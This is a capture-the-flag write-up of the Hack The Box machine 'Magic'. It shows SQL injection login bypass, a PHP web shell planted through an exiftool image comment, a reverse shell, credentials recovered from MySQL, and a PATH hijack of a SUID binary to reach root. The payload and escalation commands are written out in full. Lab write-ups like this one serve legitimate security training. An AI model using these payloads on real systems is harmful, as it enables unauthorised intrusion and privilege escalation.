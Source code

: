 ```yaml
---
"title": "Hack The Box - Magic"
"date": 2020-08-22
"tags": ["linux", "medium", "file-upload-vuln", "sqli", "mysql", "path"]
"keywords": ["linux", "medium", "file-upload-vuln", "sqli", "mysql", "path"]
"categories": "HackTheBox"
"author": "Ghostbyt3"
"description": "Initial is by doing a SQLI to bypass login. And File Upload Vulnerability,\
  \ from there we can get a shell and find user creds in SQL database. And root is\
  \ by path hijack attack."
"featured_image": "/img/htb-magic/Untitled.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox - Writeup"
---
```



![Untitled](/img/htb-magic/Untitled.png)

Initial is by doing a SQLI to bypass login. And File Upload Vulnerability, from there we can get a shell and find user creds in SQL database. And root is by path hijack attack.

Link: [https://www.hackthebox.eu/home/machines/profile/241](https://www.hackthebox.eu/home/machines/profile/241)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp    open   http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
56044/tcp closed unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=4/23%OT=22%CT=56044%CU=37951%PV=Y%DS=2%DC=T%G=Y%TM=5EA
OS:15A54%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A
OS:)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54
OS:DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88
OS:)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+
OS:%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
OS:T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%D
OS:F=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=4
OS:0%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP Enumeration

The webpage looks like a Photo Gallery and There is a login option in the left corner of the page.

![Untitled](/img/htb-magic/Untitled%201.png)

Let's Look at the login page. I tried some default credentials, didn't work. So next option is SQL Injection.

![Untitled](/img/htb-magic/Untitled%202.png)

Captured the login request in burp. And send that to the intruder.

![Untitled](/img/htb-magic/Untitled%203.png)

In payload tab added MySQL Authentication bypass from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass). And Start Attack.

![Untitled](/img/htb-magic/Untitled%204.png)

We got some `302 Status`, they might help us login.

![Untitled](/img/htb-magic/Untitled%205.png)

![Untitled](/img/htb-magic/Untitled%206.png)

Logged in Successfully. And there is only an Image Upload options so I tried to upload a normal image first.

![Untitled](/img/htb-magic/Untitled%207.png)

Uploaded Successfully.

![Untitled](/img/htb-magic/Untitled%208.png)

I can see the image in the index page.

![Untitled](/img/htb-magic/Untitled%209.png)

I found the locations where these images are saving.

![Untitled](/img/htb-magic/Untitled%2010.png)

We can use Exiftool to inject payload into an image.

```bash
root@w0lf:~/CTF/HTB/Boxes/Magic# exiftool -Comment='<?php system($_GET['cmd']); ?>' payload.jpg
    1 image files updated
root@w0lf:~/CTF/HTB/Boxes/Magic# mv payload.jpg payload.php.jpg
```

Now We can upload the payload. 

![Untitled](/img/htb-magic/Untitled%2011.png)

![Untitled](/img/htb-magic/Untitled%2012.png)

## Getting shell as www-data

Our Payload is working. Let's try to get a reverse shell now.

![Untitled](/img/htb-magic/Untitled%2013.png)

Started python server in my machine and upload a PHP Reverse shell.

![Untitled](/img/htb-magic/Untitled%2014.png)

I used `wget` to upload the PHP reverse shell to the box.

![Untitled](/img/htb-magic/Untitled%2015.png)

Now I can access `wolfpayload.php` in the same directory and started my netcat listener. And We got `www-data` shell.

![Untitled](/img/htb-magic/Untitled%2016.png)

## Getting user Theseus

While enumerating I found `db.php5` in `/var/www/Magic` directory. We found some credentials, so `su` to the user.

![Untitled](/img/htb-magic/Untitled%2017.png)

Before doing `su`  we need to get a proper shell first.

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

 When tried login I get  Authentication Failure.

```bash
$ su theseus
su theseus
Password: iamkingtheseus

su: Authentication failure
```

Since we have MySql Credentials better Dump all. And I got one more password now.

![Untitled](/img/htb-magic/1.png)

Finally logged in as user with `theseus : Th3s3usW4sK1ng`

```bash
$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$ whoami
whoami
theseus
theseus@ubuntu:/var/www/Magic$
```

## Privilege Escalation

I uploaded my enumeration script and found a `SETUID` binary.

![Untitled](/img/htb-magic/Untitled%2018.png)

### What is sysinfo?

- sysinfo - return system information.

I did `strings` on `/bin/sysinfo` and it running some other tools too.

![Untitled](/img/htb-magic/Untitled%2019.png)

### What is lshw?

- lshw is used to generate the detailed information of the system’s hardware configuration

The path of `lshw` is not fully specified.

So we can create a file to give us shell and placed it in `/tmp` and name it as `lshw` and change the PATH to `/tmp`.

```bash
theseus@ubuntu:/tmp/test$ echo "reset; sh 1>&0 2>&0" > lshw
echo "reset; sh 1>&0 2>&0" > lshw
theseus@ubuntu:/tmp/test$ chmod 755 lshw
chmod 755 lshw
```

This command will make the PATH to search in `/tmp` first

```bash
theseus@ubuntu:/tmp/test$ export PATH=/tmp/test:$PATH
export PATH=/tmp/test:$PATH
```

Now by running `sysinfo` it will search for `lshw` to execute it and it asks the PATH where it locates and it will tell `lshw` is located in `/tmp/test/lshw`.

```bash
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
info.c	root.txt
#
```

We own the root!
